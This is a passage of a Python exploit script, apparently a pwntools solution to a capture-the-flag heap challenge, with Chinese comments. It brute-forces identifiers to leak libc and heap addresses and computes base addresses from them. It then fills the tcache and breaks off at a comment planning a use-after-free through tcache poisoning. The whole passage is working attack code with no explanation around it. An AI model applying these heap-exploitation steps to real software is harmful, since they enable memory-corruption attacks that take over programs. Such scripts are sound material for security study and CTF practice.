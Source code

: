 ```py
idx = add(0x3d0)
# 爆破 libc 前面
line = ""
num = 0
for i in range(0x100):
    num = 0x7f00+i
    p.sendlineafter("> ", "2")
    p.sendlineafter("id: ", hex(0x7f00+i))
    line = p.recv(4).decode().strip("\n")
    if "data" in line:
        break
print(line)
line = p.recvuntil(": ")
print(line)
libc_lower = line.decode().split("(")[1].split(")")[0]
libc_leak = int(libc_lower,10)+num*0x100000000
print(hex(libc_leak))
libc_num = num

#  0x7f951159e000 0x7f95117a1ee0
libc_base = libc_leak - 0x7a1ee0 + 0x59e000
offset = 0x203ee0
# try heap leak
p.sendline("") # 这里先不写 防止覆盖堆指针
delete(num) # 防止 index 冲突
# do edit
edit(num,p64(libc_leak+0x20)[:6]+b"\n")
for i in range(7): # 耗尽 tcache
    idx = add(0x3d0)
    delete(idx)

num = add(0x3d0) # 搞个有 libc 地址的 smallbin 出来
delete(num)
# 爆破 heap
heap_idx = 0
for i in range(0x100):
    heap_idx = 0x5500+i
    p.sendlineafter("> ", "2")
    p.sendlineafter("id: ", hex(0x5500+i))
    line = p.recv(4).decode().strip("\n")
    if "data" in line:
        break
    heap_idx = 0x5600 + i
    p.sendlineafter("> ", "2")
    p.sendlineafter("id: ", hex(0x5600+i))
    line = p.recv(4).decode().strip("\n")
    if "data" in line:
        break

print(line)
line = p.recvuntil(": ")
print(line)
heap_lower = line.decode().split("(")[1].split(")")[0]
heap_leak = int(heap_lower,10)+heap_idx*0x100000000
print(hex(heap_leak))
print(hex(libc_base))
# trigger
p.sendline("")
# 0x558f96911c00 0x558f96604000 heap_leak 对应的块在 small bins 里面
heap_base = heap_leak - 0x911c00+0x604000

# 到这里可以开始 uaf 了 直接上 smallbin 可能有点难 上 tcache poisoning 吧

```